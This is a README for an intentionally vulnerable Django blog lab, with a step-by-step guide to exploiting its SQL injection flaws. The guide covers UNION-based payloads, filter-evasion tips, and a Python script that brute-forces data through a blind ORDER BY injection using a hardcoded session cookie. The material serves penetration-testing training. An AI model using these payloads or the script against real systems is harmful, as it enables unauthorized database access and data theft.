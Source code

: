 ⚠️ This project is for **educational and research purposes only**. Do not deploy or test on unauthorized systems.
# Vulnerable Blog Web Application (Docker)

This project is a vulnerable **blog web application** designed for **web penetration testing**. It is built using **Django**, with **MariaDB** as the database , all containerized using **Docker**.

## 🚨 Vulnerabilities

### 1️⃣ SQL Injection (Classic SQLi)
- A classic **SQL Injection vulnerability** is present in the details posts functionality.
### 2️⃣ Blind SQL Injection (ORDER BY Exploit)
- A **Blind SQL Injection** vulnerability exists in an `ORDER BY` clause.
- Since the response does not directly return database content, attackers must infer information by analyzing server behavior.

## 🏗️ Setup Instructions

1. **Clone the repository**  
   ```bash
   git clone https://github.com/Mgh-Zakariae/Vulnerable_web_app.git
   cd Vulnerable_web_app
```

1. **Build and run the Docker containers** : `sudo docker-compose up --build`
>You must ensure you have **Docker** and **docker-compose** installed. install docker

2. **Access the web application**  
    Open your browser and navigate to: http://localhost:8000`

---
## 🎯Exploitation Guide
### Classic SQL Injection

1. **Identify the Vulnerability**:
    - The application has an input field in http://localhost:8000/posts/my_posts/details/?id=18 that is vulnerable to SQL injection.
    - You can test this by entering a single quote (`'`) and observing if the application throws an error or behaves unexpectedly.

2. **Manual Exploitation**:
    - Instead of using automated tools like `sqlmap`, you can exploit the vulnerability manually.
    - The application is vulnerable to **Union-Based SQL Injection**.

3. **Enumerate the Database**:
    - Use a payload to determine the number of columns. For example:
        - **Using `UNION SELECT`**:
		- inject `NULL` values until the number of columns matches.
		- The query that does not produce an error reveals the number of columns.
	```sql
  ' UNION SELECT NULL--
  ' UNION SELECT NULL, NULL--
  ' UNION SELECT NULL, NULL, NULL--
```
	- Use a payload to enumerate the database schema. For example:
		`' UNION SELECT NULL,NULL,...,schema_name FROM INFORMATION_SCHEMA.SCHEMATA-- -`
		>it only work if you add number of null values that match the number of columns

4. Detect if there is a filter:
	- After doing the previous step, you may notice that everything is not working, because there is a filter. you need to apply one of the filter evasion techniques.
		- you can try URL Encoding,  Hexadecimal Encoding, changing the case of SQL keywords like sEleT , fRoM ....

5. **Find the Flag Table**:
    
    - Once you know the method to bypass filter, the database name, the number of columns, enumerate the tables:
        
        ```
        ' UNION SELECT NULL,NULL,....,table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='database_name' -- -
        ```
        
    - Look for a table named `flag`.
6. **Retrieve the Flag**:
    
    - The `flag` table contains a column named `flag`. Use the following payload to retrieve the flag:
        
        ```
        ' UNION SELECT NULL,NULL,.....,flag FROM flag -- -
        ```
    - The application will return the flag.
	- flag is `MGHFLAG{d1g1t4l_gh0st_Good_Job_7r4ck3r_9071}`

---
### Blind SQL Injection

1. **Identify the Vulnerability**:
	- The application has an input field in http://localhost:8000/posts/my_posts?sort=date that is vulnerable to Blind SQL injection.
    - You can test this by entering a` title desc -- -` and observing if the application behaves unexpectedly

2. Manual Exploitation:
	-  you can use the following query that used with `order by` to found the flag : 
		- `CASE WHEN (select SUBSTRING(flag,0,lengh) from flag) = 'char' THEN title ELSE Date END `
	- if the web site sort the posts with *title* that means the character is correct (it's the first char. from the flag) , 
>			- <span style="color:rgb(131, 129, 129)">SUBSTRING(column, start_position, length) :</span>
>			- <span style="color:rgb(131, 129, 129)">The `SUBSTRING` function extracts a portion of a string.</span>
>			- <span style="color:rgb(131, 129, 129)">Syntax: `SUBSTRING(string, start_position, length)</span>`
>			- <span style="color:rgb(131, 129, 129)">Example</span><span style="color:rgb(131, 129, 129)">:</span> `SUBSTRING('hello', 2, 3)` <span style="color:rgb(131, 129, 129)">returns</span> `'ell'`.

1. Automation of exploitation:
	-  to exploit this vulnerability by this query , we write a [script](https://github.com/Mgh-Zakariae/Vulnerable_web_app/blob/b9b8f4ee46fc00aefbd1ed0e0de61f1d2fab4387/exploitation_script.py) to automate the process 
	- This script is an **automated Blind SQL Injection exploit** that brute-forces a flag character by character using the `ORDER BY` clause. It works by:
		1. **Generating a character set** (`array`) containing letters, numbers, and special symbols.
		2. **Sending an initial request** to determine the response when ordering by `title`.
		3. **Iterating through possible flag lengths (1 to 40 characters)** and testing each character in `array`.
		4. **Using a conditional SQL query** (`CASE WHEN ... THEN title ELSE category END`) to check if the substring of the flag matches the guessed characters.
		5. **Comparing responses**: If the response matches the original request with `title`, the guessed character is correct, and it is added to the `flag`.
		6. **Printing the extracted flag progressively** until fully retrieved.
```python
import string
import requests
import urllib.parse

# Create an array with all letters and numbers
array = list(string.ascii_letters + string.digits)
array.extend(list("{}()_-$@!#"))

url = "http://localhost:3000/posts/my_posts?sort="

# Define the session ID (replace with your actual session ID)
# we use this line to bypass the login check 
cookies = {"sessionid": "j8kob0o3a42uoktgmo3rh0vrx1dbvkwx"}

req_with_title = requests.get(url + "title", cookies=cookies).text

flag = ""
print("#### Start Exploit")

for i in range(1, 40):
    for l in array:
        payload = f"CASE WHEN (select BINARY SUBSTRING(flag,1,{i}) from flag) = '{flag+l}' THEN title ELSE category END"
        payload = f"CASE WHEN (select BINARY SUBSTRING(table_name,1,{i}) from information_schema.tables LIMIT 1) = '{flag+l}' THEN title ELSE category END"
        payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END"
        encoded_payload = urllib.parse.quote_plus(payload)  # Encode the payload properly

        req = requests.get(url + encoded_payload, cookies=cookies)
        if req.text == req_with_title:
            flag += l
            print(f"Current flag: {flag}")
            break
    if flag[-1] == '}':
        break

print(f"Final flag: {flag}")
```
> you can modify this script to enumerate more information about database , for example to enumerate name of database you can use this payload : `payload = f"CASE WHEN (select BINARY SUBSTRING(database(),1,{i})) = '{flag+l}' THEN title ELSE category END`

- its output is  : 
```bash
Final flag: MGHFLAG{d1g1t4l_gh0st_Good_Job_7r4ck3r_9071}
```


🔗 **GitHub:** [https://github.com/Mgh-Zakariae/Vulnerable_web_app.git] 
